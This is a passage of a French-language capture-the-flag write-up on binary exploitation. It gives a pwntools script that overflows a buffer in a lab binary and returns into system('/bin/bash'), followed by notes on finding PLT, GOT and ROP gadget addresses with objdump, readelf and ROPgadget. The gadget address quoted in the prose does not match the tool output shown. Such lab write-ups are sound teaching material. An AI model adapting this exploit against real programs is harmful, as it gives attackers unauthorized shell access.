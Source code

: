 - Script Python
```python
#!/bin/python3

from pwn import *

plt_sys = 0x08049070       # addresse plt [reloc.system]
addr_string = 0x0804c024   # addresse de la string "/bin/bash"

io = process('./chall_6')
payload = (b"A"*0x100)
payload += b"ZzzzZzzz"
payload += (b"A"*12)
payload += p32(plt_sys)
payload += (b"A"*4)  # il faut mettre un padding de 4 avant d'appeler une fonction
payload += p32(addr_string)
io.sendlineafter(b"?", payload)
io.interactive()
io.close()
```
Une fois le buffer remplis et débordé comme dans les chall d'avant, on appelle la fonction "system", on se décale de 4 et on insère un argument, ici "/bin/bash" (en insérant l'adresse qui pointe sur la string "/bin/bash" )

#### Chall 7

Regarde dans le HEADER ELF mis en argument pour sortir les libs appelés.
```
ldd fichier_binaire
```
Permet de vérifier la ou les libs. La sorti de cette commande doit être mise dans le ELF(...).

- Afficher les sections présente dans un binaire :
```bash
readelf -S fichier_binaire 
```
Ici on peut voir que les sections .init, .plt, .text et .fini ont le flag eXecutable, c'est donc ici que nous allons trouver nos gadgets.

- Afficher les fonctions importées de la libc et leur adresse dans la GOT :
```bash
objdump -R fichier_binaire
```

- Récup l'adresse référençant puts dans la plt (ici 0x00001070):
```bash
[$] <> objdump -d chall_7 | grep "<puts@plt>" 
00001070 <puts@plt>:
    1264:	e8 07 fe ff ff       	call   1070 <puts@plt>
    12af:	e8 bc fd ff ff       	call   1070 <puts@plt>
    12c3:	e8 a8 fd ff ff       	call   1070 <puts@plt>
```

- RopGadget permet d'extraire les gadgets d'un binaire :
```bash
[$] <> ROPgadget --binary chall_7 
0x0000101e : pop ebx ; ret
```
On y trouve un gadget `0x080482f5 : pop ebx ; ret;` idéal pour notre exploitation.
